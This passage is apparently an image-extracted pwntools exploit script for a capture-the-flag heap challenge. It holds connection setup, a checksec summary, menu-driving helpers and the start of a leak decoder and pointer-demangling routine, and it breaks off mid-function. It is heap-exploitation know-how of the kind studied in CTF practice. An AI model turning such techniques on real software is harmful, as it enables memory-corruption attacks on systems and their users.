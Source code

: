 ```python
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
break *main+333
'''.format(**locals())
# break *db_menu+256
# break *db_line+394

# =========================================================
#                         EXPLOITS
# =========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled
# RUNPATH:  b'./lib'

def create(idx, key_len, key, value_len, value):
    io.sendlineafter('>>>', b'1')
    io.sendlineafter('>>>', str(idx).encode())
    io.sendlineafter('>>>', str(key_len).encode())
    io.sendlineafter('>>>', key)
    io.sendlineafter('>>>', str(value_len).encode())
    io.sendlineafter('>>>', value)
    
def update(idx, value):
    io.sendlineafter('>>>', b'2')
    io.sendlineafter('>>>', str(idx).encode())
    io.sendlineafter('>>>', value)

def read(idx):
    io.sendlineafter('>>>', b'3')
    io.sendlineafter('>>>', str(idx).encode())

def delete(idx):
    io.sendlineafter('>>>', b'4')
    io.sendlineafter('>>>', str(idx).encode())

def encode_leak(leak):
    res = []

    while(len(leak) > 0):
        if leak[:2] == b'\\x':
            res.append(leak[2:4].decode()[::-1])
            leak = leak[4:]
        else:
            res.append(hex(ord(leak[:1]))[2:][::-1])
            leak = leak[1:]

    return int(''.join(res)[::-1], 16)

def demangle(val):
    mask = 0xfff << 52
    while mask:
        v = val & mask
        val ^= (v >> 12)
```